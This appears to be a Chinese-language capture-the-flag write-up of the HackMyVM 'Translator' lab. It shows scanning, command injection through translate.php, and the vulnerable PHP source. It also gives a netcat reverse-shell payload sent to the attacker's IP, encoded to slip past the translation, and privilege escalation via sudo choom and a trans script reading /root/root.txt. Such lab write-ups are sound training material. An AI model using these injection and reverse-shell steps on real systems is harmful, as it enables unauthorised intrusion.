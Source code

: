 # Translator

2025.02.05 https://hackmyvm.eu/machines/machine.php?vm=Translator

[video](https://www.bilibili.com/video/BV1jaP1eWEAZ/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web 首页显示的是一个翻译页面，输入一个 5 时，会显示 2 个 5，这里可能会出现漏洞点。

先 gobuster 扫描看看有没有其他隐藏目录，没有发现：

```
gobuster -t 32 dir -u http://192.168.5.40/ -k -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -e -x txt,php,html,jpg
```

仔细研究下这个翻译功能吧，经过测试，输入数字 0-9 不会变化，输入字符 a 会输出 z 字符，字母是按倒序进行输出的，这里可能使用了 linux 中的处理命令 tr，可能存在命令注入，进行测试：

```
GET /translate.php?hmv=oh;oh HTTP/1.1
```

这里发现实现了 ls 的输出功能，可以实现命令注入，直接进行反弹（nc 192.168.5.3 8888 -e /bin/sh）：

```
GET /translate.php?hmv=oh;mx+192.168.5.3+8888+-v+/yrm/hs HTTP/1.1
```

得到了反弹的 shell，在/var/www/html 目录下，发现一个文件 hvxivg 进行 translate 后得到了 secret:

```
www-data@translator:~/html$ cat hvxivg
Mb kzhhdliw rh zbfie3w4

My password is ayurv3d4
```

```
cat translate.php
<?php
$test = $_GET['hmv'];
$test = escapeshellcmd($test);
echo ("Translated to:");
echo "<br>";
$ultima_linea = system('echo '.$test.'| tr abcdefghijklmnopqrstuvwxyz zyxwvutsrqponmlkjihgfedcba');
$ulti = system('echo '.$ultima_linea.'| tr "php" "wtf"');
?>
```

/home 目录中发现 2 个用户 india 和 ocean 尝试用上面的密码切换用户，最终切换到 ocean 用户，得到了 user flag：

```
ocean@translator:~$ cat user.txt
a6765hftgnhvugy473f
```

sudo -l 发现: (india) NOPASSWD: /usr/bin/choom , 可以用这个切换到 india 用户: sudo -u india choom -n 0 /bin/bash

切换到 india 用户后，sudo -l 发现: (root) NOPASSWD: /usr/local/bin/trans

/usr/local/bin/trans 是一个脚本文件，india 用户没有 w 权限，不能修改。先执行看看它的帮助，发现可以读取文件：

```
sudo -u root /usr/local/bin/trans --help

I/O options:
    -i FILENAME, -input FILENAME
    Specify the input file.
```

这里这个脚本需要调用 google 的翻译接口，需要借助魔法，使用 kali 上的 proxy，所以直接写了命令：

```
sudo -u root /usr/local/bin/trans -i /root/root.txt -x http://192.168.5.3:7890 --no-autocorrect
```

最终得到 root flag:

```
h87M5364V2343ubvgfy
```
